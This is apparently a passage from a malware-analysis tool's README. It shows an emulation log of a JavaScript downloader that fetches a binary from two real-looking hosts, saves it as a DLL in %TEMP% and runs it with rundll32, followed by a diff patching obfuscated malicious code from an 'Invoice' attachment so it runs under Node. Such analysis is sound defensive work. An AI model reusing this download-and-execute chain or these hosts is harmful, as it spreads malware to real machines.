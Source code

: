     28 Oct 14:29:12 - MSXML2.XMLHTTP[10].open(GET,http://site4.pulusajans.com/7fg3g?ELRzLW=AYRflS,false)
    28 Oct 14:29:12 - MSXML2.XMLHTTP[10].responseBody = (object) '<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">?<html><head>?<title>404 Not Found</title>?</head><body>?<h1>Not Found</h1>?<p>The requested URL /7fg3g was not found on this server.</p>?<hr>?<address>Apache Server at site4.pulusajans.com Port 80</a ... (truncated)'
    28 Oct 14:29:12 - MSXML2.XMLHTTP[10].open(GET,http://accademiamoda.com/7fg3g?ELRzLW=AYRflS,false)
    28 Oct 14:29:14 - MSXML2.XMLHTTP[10].responseBody = (object) '???MQTH1TDa1??fl?hF1bVOF?ESLCnBbRI9MRTH1PDa1SPflGhF1bVOFDESL?nBb\V?CR?A?q?`}?q2?.?fA?9(4%(s/"?,?&i[(r&=_p-????5L*?"TL[BL`ESLCnBb.?{?j{d?hkM?k?J??Xa?[yc??vq?nAn??y??S{d?a???i?J??Gj?[yc??e"?xAn?jf??>{d?mg-?j?J??L4?[yc?yf%?zAn?? Z%j{d?PDa1SPflGhF1bVOF?? ... (truncated)'
    28 Oct 14:29:14 - ADODB_Stream[19].content = (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$???????|NB?8/,?8/,?8/,?W0'?9/,??3"?-/,?W0&??/,?1W??:/,?8/,?9/,?? q?;/,?8/-?l/,?=#L?9/,??$r?9/,?=#v?9/,?Rich8/,?????????????????PE ... (truncated)'
    28 Oct 14:29:14 - ADODB_Stream[19].SaveToFile(%TEMP%/aWpHYb4.dll, 2)
    28 Oct 14:29:14 - WScript.Shell[9].Run(rundll32  %TEMP%/aWpHYb4.dll,EnhancedStoragePasswordConfig, 0, false)

**malwr.com:** https://malwr.com/analysis/ZmFkZWVlMjY4NjI1NGQ3MDgxYmMxYTAxZjgxMmJiNWQ/

**Source code:** malware/20161028/7b7bd1e2bd63f233004045f8d3c743af41e0107765b703841b620253243a0732.js

**Command:**

    node jailme.js --down=y malware/20161028/7b7bd1e2bd63f233004045f8d3c743af41e0107765b703841b620253243a0732.js

**Output:** [malware/20161028/7b7bd1e2bd63f233004045f8d3c743af41e0107765b703841b620253243a0732.out](malware/20161028/7b7bd1e2bd63f233004045f8d3c743af41e0107765b703841b620253243a0732.out)

## Invoice INV00249.js ##

This one shows, that analysis is not always fully automatic. We need to patch the malware first:

    --- ece7520d2db75456ebd6f32b01fc79600bbbc2065dbc552bc6077eeaab346771.js.orig	2016-10-22 22:53:52.575444117 +0200
    +++ ece7520d2db75456ebd6f32b01fc79600bbbc2065dbc552bc6077eeaab346771.js	2016-10-22 22:56:28.734991401 +0200
    @@ -2,11 +2,12 @@
     kQsGAMIHpUGT = [];
     while (Pm2kMCcxm0 > (((0x6b80000 >>> 32) >> (0x130 >>> 0x4)) % (1024 >> 10))) {
         L9f7VRIW = ("" + new Date()).split(" ");
    +    // Node has different format of Date than WScript ...
    +    L9f7VRIW = "Sat Oct 22 22:07:32 UTC+0200 2016".split(" ");
         kQsGAMIHpUGT.push(L9f7VRIW[Pm2kMCcxm0 % 6]);
         --Pm2kMCcxm0;
     }
    -
    -function String.prototype.ri() {
    +String.prototype.ri = function() {
         var Ovi1ctaKmK = ((~(~0x1be)) % (~-2));
         var bW4riLXdNJg = this.split('');
         if (Number(kQsGAMIHpUGT[bW4riLXdNJg.length * 6 + 3]) - (((378333168 >>> 4) * (25165824 >>> 21) + (0x59483 << 0x2)) >>> (12 * 0x2)) == (~((~499) << (2 >>> 0x20)))) Ovi1ctaKmK = bW4riLXdNJg.length;
